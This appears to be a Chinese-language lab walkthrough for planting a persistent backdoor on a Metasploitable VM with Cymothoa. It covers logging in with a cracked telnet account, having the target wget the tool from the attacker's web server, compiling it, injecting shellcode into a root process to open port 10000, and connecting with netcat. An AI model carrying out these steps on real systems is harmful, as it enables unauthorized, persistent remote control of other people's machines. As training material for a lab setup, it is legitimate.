 
# 0X00 原理
1、为了保持持久化的攻击效果，留下后门到目标计算机是个很好的方法<br />2、利用cymothoa创建后门，它可以向进程注入后门，打开后门端口，然后攻击者可以使用NC进行连接获得目标主机的系统的控制权


# 0X01 创建后门
攻击机：kali ：192.168.1.149<br />目标机：metasploitable：192.168.1.18<br />1、利用已经破解的telnet账号登录metasploitable([破解telnet](https://www.yuque.com/xmtxsec/misc/lf1yz4))
```
root@kali222:~# telnet 192.168.1.18
```
<br />![](https://img-blog.csdnimg.cn/20200606161454759.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=SowFm&originHeight=432&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2、复制后门文件Cymothoa到目标主机并编译生成可执行文件<br />再开一个终端，kali上启动apache2
```
root@kali222:~# service  apache2  start
```
<br />![](https://img-blog.csdnimg.cn/20200606161722754.png#crop=0&crop=0&crop=1&crop=1&id=LBgdt&originHeight=70&originWidth=412&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将文件cymothoa-1-beta.tar.gz复制到网站根目录/var/www/html<br />![](https://img-blog.csdnimg.cn/20200606161808762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=rjsRJ&originHeight=346&originWidth=828&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

该文件需要复制到对方，解压后去执行编译，以生成可执行程序，利用前面通过telnet获得的metasploit的SHELL完成如下命令
```
root@metasploitable:~# wget  http://192.168.1.149/cymothoa-1-beta.tar.gz
```
<br />![](https://img-blog.csdnimg.cn/20200606161905569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=g7Ttj&originHeight=227&originWidth=723&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
root@metasploitable:~# cd  /        ----切换目录
root@metasploitable:/# mkdir aaa         ----创建aaa
root@metasploitable:/# cp ~/cymothoa-1-beta.tar.gz  /aaa    ----将文件复制到aaa
root@metasploitable:/# cd  aaa
root@metasploitable:/aaa# tar -xf cymothoa-1-beta.tar.gz  ---解包解压缩
oot@metasploitable:/aaa# cd  cymothoa-1-beta
root@metasploitable:/aaa/cymothoa-1-beta# gcc cymothoa.c -o cymothoa  ------编译并生成可执行文件
root@metasploitable:/aaa/cymothoa-1-beta#
```
<br />![](https://img-blog.csdnimg.cn/20200606162300137.png#crop=0&crop=0&crop=1&crop=1&id=AvxU9&originHeight=166&originWidth=737&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

3、查看目标主机当前运行的进程，找到可以将后门注入的进程（最好USER是root）
```
root@metasploitable:/aaa/cymothoa-1-beta#  ps -aux
```
<br />![](https://img-blog.csdnimg.cn/2020060616272924.png#crop=0&crop=0&crop=1&crop=1&id=V2ZGZ&originHeight=195&originWidth=747&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

4、查看cymothoa可以使用的payload
```
root@metasploitable:/aaa/cymothoa-1-beta# ./cymothoa -S   -----查看payload或者shellcode
```
<br />![](https://img-blog.csdnimg.cn/20200606163023329.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Nyb3H&originHeight=348&originWidth=853&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

5、把后门注入到进程中
```
root@metasploitable:/aaa/cymothoa-1-beta# ./cymothoa -p 4634 -s 1 -y 10000
参数解析：
这里我们就用序号 1 这个 payload，通过端口来反向 shell。
-p参数：用来指定需要注入的进程的 pid
-s参数：用来指定使用shellcode 的序号
-y参数：用来指定反向 shell 的端口，即别人连接自己时需要连接的端口。
```
运行后当出现 infected 即感染的意思则代表后门注入成功。<br />这里我们使用4560这个PID，当然也可以换成其它的ROOT身份的进程，实验的时候如果后门的NC连接不上，可以换其它的，直接在上面的进程列表中查找对应的进程<br />![](https://img-blog.csdnimg.cn/20200606163320118.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=wmPDq&originHeight=324&originWidth=766&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 0X02 利用
在kali终端：
```
root@kali222:~# nc -nvv 192.168.1.18 10000  ---这里的端口号应该与上边生成后门的端口号一致
```
<br />![](https://img-blog.csdnimg.cn/20200606163646453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=lG1q7&originHeight=233&originWidth=617&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
